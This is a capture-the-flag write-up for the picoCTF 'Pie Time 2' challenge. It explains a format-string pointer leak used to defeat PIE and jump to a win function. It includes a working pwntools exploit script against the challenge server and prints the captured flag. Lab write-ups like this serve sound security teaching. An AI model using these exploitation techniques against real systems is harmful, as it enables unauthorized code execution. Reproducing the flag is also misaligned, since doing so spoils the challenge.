



## Pie Time 2
 

**Description**

Can you try to get the flag? I'm not revealing anything anymore!!


**Write-up**

Same logic as previous challenge. However app is not printing the main address anymore.



Goal is to jump to function `win`. Function `call_functions` will attempt to execute code from whatever address user passes.

The trick is to use the format string vulnerability at line `15` to print a known address. For this, I looked around the returned values and found that the pointer returned by the format string `%19$016llx` (trial and error from %8...%19) was to the `main` function.


Based on this pointer, calculated the offset until the start of the `win` function, this value turned to be `0xd7`. 

The final script:

```python
from pwn import *
io = remote("rescued-float.picoctf.net", 61250)

print(io.recvuntil('Enter your name:'))

format_string_payload = b'%19$016llx'
io.sendline(format_string_payload)


buff = io.recvuntil('0x12345:')
print(buff)
ptr_leaked = int(buff[0:16], 16)
print("Pointer received: " + hex(ptr_leaked))

offset_from_main_to_win = 0xd7

final_ptr = hex(ptr_leaked - offset_from_main_to_win)
print("Hopefully 'win' address: " + final_ptr)

io.sendline(final_ptr)

io.interactive()
```



**Solution**


Flag: picoCTF{p13_5h0u1dn'7_134k_c9a04879}


[back](./../..)